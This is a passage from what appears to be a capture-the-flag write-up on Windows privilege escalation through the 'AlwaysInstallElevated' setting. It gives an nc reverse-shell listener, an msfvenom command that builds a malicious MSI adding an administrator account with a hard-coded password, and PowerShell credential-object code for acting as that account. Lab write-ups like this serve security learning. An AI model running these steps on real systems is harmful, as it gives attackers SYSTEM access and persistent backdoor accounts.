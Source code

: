 -   Copy the malicious `msi` to the host:
    -   {{< figure src="/ox-hugo/2024-12-24-081339_.png" >}}

-   Standup my nc listener:
    -   `rlwrap -cAr nc -nvlp 8888`

-   Run the `.msi` file and catch my `NT/Authority\system` shell.
    -   {{< figure src="/ox-hugo/2024-12-24-081500_.png" >}}

-   Get the root flag:
    -   {{< figure src="/ox-hugo/2024-12-24-081550_.png" >}}


### Privesc Method 2: Adding a new Admin User with msfvenom: {#privesc-method-2-adding-a-new-admin-user-with-msfvenom}

-   +Note+: This method is a bit more long winded and uses the same exploitation method of "always install elevated" but is a different route.

-   I use msfvenom to create our malicious `msi` to add a new user.
    ```shell
    msfvenom -p windows/adduser USER=bloodstiller PASS=BL00dstiLL3r# --platform Windows -f msi -o addAdminUser.msi
    ```

    -   {{< figure src="/ox-hugo/2024-12-24-121654_.png" >}}

-   I standup my python webserver.
    -   `python3 -m http.server 9000`

-   Copy the malicious `msi` to the host:
    -   {{< figure src="/ox-hugo/2024-12-24-121738_.png" >}}

-   Verify there are only the legitimate users on the host:
    -   {{< figure src="/ox-hugo/2024-12-24-121836_.png" >}}

-   Run the malicious `addAdminUser.msi`:
    -   {{< figure src="/ox-hugo/2024-12-24-121926_.png" >}}

-   Verify the user has been added:
    -   {{< figure src="/ox-hugo/2024-12-24-121949_.png" >}}

-   Now I **cannot** to use `/runas` as the shell is limited so I cannot pass credentials directly. Instead to run commands as the new user I will need to use a `PowerShell Credentialed Object`.
    -   **A PowerShell credential object is** an instance of the `System.Management.Automation.PSCredential` class that securely stores a username and password, created using `Get-Credential` (gui-prompt) or manually with the below (which I will use.)
        ```powershell
        #1. Use secure sring to pass our password and store in the $pass var:
        $pass = convertto-securestring 'BL00dstiLL3r#' -asplain -force

        #2. Pass our username:
        $username = "bloodstiller"

        #3. Pass username & password into one var $cred:
        $cred = New-Object System.Management.Automation.PSCredential ($username, $pass)

        #4. Run our Command passing it the "Credential $credential" arg + var:
        #Command:
        [command] -Credential $cred
        ```
-   You might be tempted to try the below to simply read the file, however it won't work.
    ```powershell
    cat C:\Users\Administrator\Desktop\root.txt -Credential $cred
    ```
